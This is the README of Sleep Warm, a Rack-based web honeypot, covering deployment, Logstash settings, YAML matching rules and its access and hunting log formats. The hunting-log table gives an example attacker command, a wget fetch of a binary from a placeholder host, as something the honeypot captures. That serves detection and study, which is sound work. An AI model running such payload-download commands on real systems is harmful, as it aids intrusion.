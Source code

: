 # Sleep Warm

[![Build Status](https://travis-ci.org/ninoseki/sleep_warm.svg?branch=master)](https://travis-ci.org/ninoseki/sleep_warm)
[![Maintainability](https://api.codeclimate.com/v1/badges/46dcae2391a2a7f5dcb5/maintainability)](https://codeclimate.com/github/ninoseki/sleep_warm/maintainability)
[![Coverage Status](https://coveralls.io/repos/github/ninoseki/sleep_warm/badge.svg?branch=master)](https://coveralls.io/github/ninoseki/sleep_warm?branch=master)

A web-based low-interaction honeypot build on [Rack](https://github.com/rack/rack). This honeypot is highly inspired by [WOWHoneypot](https://github.com/morihisa/WOWHoneypot).

## Concepts

- Easy to install.
  - One-click deployment to Heroku or just execute [Itamae](http://itamae.kitchen/) scripts.
- Easy to customize.
  - Matching rules and default responses are customizable via editing YAML files.
- Well tested.

## Supported

- Ubuntu 16.04 LTS and Ruby 2.6.

## Installation

### Prerequirement

You will need an Elasticsearch instance for log analysis because Sleep Warm can only deal with Logstash logging.

### Deploy on Heroku

You can deploy Sleep Warm on Heroku by clicking the button below and follow the instructions.

[![Deploy](https://www.herokucdn.com/deploy/button.svg)](https://heroku.com/deploy?template=https://github.com/ninoseki/sleep_warm)


### Deploy by Itamae

You can automatically deploy Sleep Warm on Ubuntu by using [Itamae](http://itamae.kitchen/).

You will need Ruby 2.5 & Itamae for the auto deployment.

```sh
$ git clone https://github.com/ninoseki/sleep_warm.git
$ cd sleep_warm
# install Sleep Warm
$ itamae ssh -h HOST -u USER cookbooks/sleep_warm/default.rb
# install ufw and its settings for the Sleep Warm
$ itamae ssh -h HOST -u USER cookbooks/sleep_warm/ufw.rb
```

And then the honeypot works as `sleep-warm.service` on `80/tcp` and `9292/tcp`.

After the deployment, please set your Elasticsearch settings in `/opt/sleep-warm/.env` and restart the service. (By default, Sleep Warm outputs Logstash log to STDOUT.)

```
# Do not change this
RACK_ENV=production
# The hostname which Logstash sends the data for
LOGSTASH_HOST=localhost
# The port which Logstash sends the data for
LOGSTASH_PORT=9300
# (Optional) The token which Logstash send the data with.
LOGSTASH_TOKEN=YOUR_TOKEN
```

## Matching rules

The matching rules are stored in `/opt/sleep-warm/app/rules` as YAML files.

The rule file format:

```yaml
---
meta:
  id: 1001
  enable: true
  note: hoge
trigger:
  method: GET
  uri: hoge
  header: hoge
  body: hoge
response:
  status: 200
  header:
    Server: Apache/2.0.48
    Content-Type: text/html
  body: hoge
```

The rule matches a request which  HTTP method is `GET` and request URI contains `hoge` and header contains `hoge` and body contains `hoge`.

## Log

Sleep Warm outputs 2 types of logs.

### Access log

- Access log of the honeypot.

| key          | desc.                       | e.g.                                                                                                                        | type   |
|:-------------|:----------------------------|:----------------------------------------------------------------------------------------------------------------------------|:-------|
| client_ip    | Client IP                   | `10.0.2.2`                                                                                                                  | string |
| hostname     | Hostname                    | `localhost:9292`                                                                                                            | string |
| method       | HTTP method                 | `GET`                                                                                                                       | string |
| uri          | Request URI                 | `http://localhost:9292`                                                                                                     | string |
| http_version | HTTP version                | `HTTP/1.1`                                                                                                                  | string |
| status       | Status code                 | `200`                                                                                                                       | number |
| rule_id      | Matched rule id             | `1001` (if there is no matching results, it will be set as `0`)                                                             | number |
| user_agent   | User agent                  | `Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36` | string |
| all          | Base64 encoded HTTP request | -                                                                                                                           | string |

### Hunting log

- Hunting log of the honeypot.

| key       | desc.                                    | e.g.                               | type   |
|:----------|:-----------------------------------------|:-----------------------------------|:-------|
| client_ip | Client IP                                | `10.0.2.2`                         | string |
| commands  | Commands which try to download something | `wget http://example.com/hoge.bin` | string |
